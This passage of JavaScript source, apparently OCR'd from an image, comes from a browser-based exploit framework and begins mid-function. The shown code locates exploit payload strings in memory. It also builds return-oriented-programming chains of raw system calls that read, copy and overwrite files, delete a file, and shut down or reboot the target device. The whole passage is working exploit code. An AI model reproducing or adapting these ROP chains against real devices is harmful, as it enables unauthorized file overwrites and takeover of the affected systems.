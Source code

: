 			if (match===exploit_data.length)
			{
				exploit_addr=base+i+4;
				
				for(t=0;t<offset_array.length;t+=1)
				{
					if(offset_array[t]===exploit_addr)
					{
						logAdd("Found "+name+" at: 0x"+exploit_addr.toString(16)+br+": Offset already used!");
						return -1;
					}
				}
				offset_array.push(exploit_addr);
				logAdd("Found "+name+" at: 0x"+exploit_addr.toString(16)+br+exploit_data.toAscii(true));
				return exploit_addr;
			}
		}
		i+=0x10;
	}
	var end_range=base+size;
	logAdd("The string variable named "+name+" could not be located in range 0x"+base.toString(16)+" - 0x"+end_range.toString(16));
	return 0;
}
//########################## ROP Framework functions by bguerville(currently under development) #########################
function copy_file_overwrite(frm,to,fd_frm,fd_to,buf,rlen,wlen,stat,nl,st_size)
{
	return memcpy(stat+stat_size_offset,nl,dword_size)
		+syscall(sc_fs_stat,frm,stat,0,0,0,0,0,0)
		+memcpy(st_size,stat+stat_size_offset,word_size)
		+syscall(sc_fs_open,frm,fs_flag_readonly,fd_frm,0,0,0,0,0)
		//+validate_word_from_ptr(fd_frm,to,0)
		+syscall_r3r5_p2p(sc_fs_read,fd_frm,buf,stat+stat_size_offset,rlen,0,0,0,0,0,0)
		+syscall_r3_p2p(sc_fs_close,fd_frm,0,0,0,0,0,0,0,0,0)
		+validate_word_from_ptr(rlen+0x4,to,0)
		+syscall(sc_fs_open,to,fs_flag_create,fd_to,fs_mode,nl,0,0,0)
		+syscall_r3r5_p2p(sc_fs_write,fd_to,buf,stat+stat_size_offset,wlen,0,0,0,0,0,0)
		+syscall_r3_p2p(sc_fs_close,fd_to,0,0,0,0,0,0,0,0,0);
}
function save_file_overwrite(to,fd,buf,wlen,size,nl)
{
	return syscall(sc_fs_open, to, fs_flag_create, fd, fs_mode,nl,0,0,0)
		+syscall_r3_p2p(sc_fs_write, fd, buf, size, wlen,0,0,0,0,0,0)
		+syscall_r3_p2p(sc_fs_close,fd,0,0,0,0,0,0,0,0,0);
}
function optional_reboot_novalidation(unlink_ptr,shutdown_type,null_ptr)
{
	var auto=document.getElementById('auto_reboot');
	if(auto){if(auto.checked===true)return syscall(sc_fs_unlink,unlink_ptr,0,0,0,0,0,0,0)+syscall(sc_sm_shutdown,shutdown_type,null_ptr,0,0,0,0,0,0);}
	return '';
}
